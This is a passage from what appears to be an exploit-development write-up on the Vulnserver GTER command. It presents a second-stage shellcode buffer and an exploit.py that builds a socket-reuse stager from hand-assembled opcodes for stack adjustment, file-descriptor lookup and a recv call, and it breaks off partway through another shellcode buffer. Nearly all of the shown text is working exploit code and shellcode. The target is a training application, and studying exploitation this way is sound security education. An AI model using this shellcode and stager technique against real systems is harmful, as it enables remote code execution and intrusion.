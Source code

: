 ```c
buf += b"\x95\x8e\xf1\xe3\xc8\x63\xa3\xbc\x87\xd6\x54\xc9\xd2"
buf += b"\xea\xdf\x81\xf3\x6a\x03\x51\xf5\x5b\x92\xea\xac\x7b"
buf += b"\x14\x3f\xc5\x35\x0e\x5c\xe0\x8c\xa5\x96\x9e\x0e\x6c"
buf += b"\xe7\x5f\xbc\x51\xc8\xad\xbc\x96\xee\x4d\xcb\xee\x0d"
buf += b"\xf3\xcc\x34\x6c\x2f\x58\xaf\xd6\xa4\xfa\x0b\xe7\x69"
buf += b"\x9c\xd8\xeb\xc6\xea\x87\xef\xd9\x3f\xbc\x0b\x51\xbe"
buf += b"\x13\x9a\x21\xe5\xb7\xc7\xf2\x84\xee\xad\x55\xb8\xf1"
buf += b"\x0e\x09\x1c\x79\xa2\x5e\x2d\x20\xa8\xa1\xa3\x5e\x9e"
buf += b"\xa2\xbb\x60\x8e\xca\x8a\xeb\x41\x8c\x12\x3e\x26\x62"
buf += b"\x59\x63\x0e\xeb\x04\xf1\x13\x76\xb7\x2f\x57\x8f\x34"
buf += b"\xda\x27\x74\x24\xaf\x22\x30\xe2\x43\x5e\x29\x87\x63"
buf += b"\xcd\x4a\x82\x07\x90\xd8\x4e\xe6\x37\x59\xf4\xf6"
```

This will be our ```second stager shellcode``` which will be passed into the buffer of ```1024 bytes``` requested from the ```socket reuse stager```

## Exploitation

The final exploit for the ```GTER``` command using ```socket reuse stager``` is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat exploit.py    
import socket, sys
from time import sleep

file_descriptor=b""
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

buf =  b""
buf += b"\xbd\x2d\xad\x09\x5a\xd9\xc7\xd9\x74\x24\xf4\x5f\x31"
buf += b"\xc9\xb1\x31\x31\x6f\x13\x03\x6f\x13\x83\xc7\x29\x4f"
buf += b"\xfc\xa6\xd9\x0d\xff\x56\x19\x72\x89\xb2\x28\xb2\xed"
buf += b"\xb7\x1a\x02\x65\x95\x96\xe9\x2b\x0e\x2d\x9f\xe3\x21"
buf += b"\x86\x2a\xd2\x0c\x17\x06\x26\x0e\x9b\x55\x7b\xf0\xa2"
```